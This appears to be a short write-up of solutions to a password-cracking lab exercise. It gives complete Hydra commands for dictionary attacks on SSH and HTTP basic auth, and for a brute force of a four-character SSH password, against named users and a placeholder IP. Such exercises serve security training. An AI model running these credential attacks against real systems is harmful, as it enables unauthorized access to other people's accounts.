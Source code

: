 # Solutions
There may be other valid ways of doing this but these are the methods that worked for me.

I used a tool called [Hydra](https://tools.kali.org/password-attacks/hydra)

## Dictionary Attacks
For the below dictionary attacks I used the 
[10-million-password-list-top-10000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt) dictionary.

### SSH
Because there are multiple ssh users that might be vulnerable to
dictionary attacks I made a `users.txt` file with the names in it like below:
```
dave
jeremy
```
I then ran the below command:
```
hydra -ue nsr \
    -L users.txt \
    -P 10-million-password-list-top-10000.txt \
    -o output.txt \
    <IP ADDRESS> ssh
```

### Basic Auth
To crack the basic auth password i ran the below command:
```
hydra -fue nsr \
    -l bob \
    -P 10-million-password-list-top-10000.txt \
    -o output.txt \
    -s 80 \
    <IP ADDRESS> http-get /
```

## Brute force
### SSH
To bruteforce the ssh password I ran the below:
```
hydra -f \
    -l keith \
    -x 4:4:1 \
    -o output.txt \
    <IP ADDRESS> ssh
```
